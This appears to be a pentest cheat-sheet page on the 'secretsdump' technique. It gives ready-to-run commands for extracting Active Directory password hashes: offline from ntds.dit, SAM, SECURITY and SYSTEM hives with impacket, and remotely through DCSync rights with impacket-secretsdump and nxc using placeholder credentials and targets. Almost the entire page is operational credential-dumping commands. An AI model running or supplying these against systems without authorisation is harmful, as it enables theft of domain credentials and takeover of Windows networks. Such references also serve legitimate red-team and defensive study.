 ```yaml
---
title: "secretsdump"
date: 2024-7-2
tags: ["secretsdump", "impacket", "active directory", "ad", "domain controller", "Windows", "ntds.dit", "hive", "hashes", "nxc", "dcsync"]
---
```


---
### Convert ntds.dit to .sqlite

<div>

```bash
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

</div>

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

</div>

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```bash
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

</div>

{{< /tabcontent >}}

### With Dcsync right

{{< tab set3 tab1 active >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```bash
impacket-secretsdump <USER>:<PASSWORD>@<TARGET>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

<div>

```bash
nxc smb -dc-ip <DC> -u <USER> -H <HASH> --ntds
```

</div>

{{< /tabcontent >}}

<br>
